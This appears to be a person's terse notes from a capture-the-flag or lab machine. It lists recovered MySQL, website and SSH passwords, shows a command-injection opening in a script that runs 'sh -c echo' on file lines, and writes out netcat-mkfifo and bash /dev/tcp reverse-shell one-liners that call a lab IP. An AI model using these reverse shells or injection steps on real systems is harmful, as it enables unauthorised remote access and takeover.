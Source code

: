 Found credentials to access the mysql data base:

root:rockyou

Found credentials in the users table for the website:

Adrian:tigger

Found another credentials in the config file:

adrian:P@sswr0d789!

[rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.31.71 1234 >/tmp/f](rm+-f+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.13.31.71+1234+>/tmp/f)

Adrian's SSH credentials:

adrian:theettubrute!

punch_in.sh contents:

```
#!/bin/bash

/usr/bin/echo 'Punched in at '$(/usr/bin/date +"%H:%M") >> /home/adrian/punch_in
```

script contents:

```
#!/bin/sh
while read line;
do
  /usr/bin/sh -c "echo $line";
done < /home/adrian/punch_in
```

Script I wanna execute:

```
#!/bin/bash
bash -i >& /dev/tcp/10.13.31.71/6666 0>&1
```

`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.31.71 6666 >/tmp/f`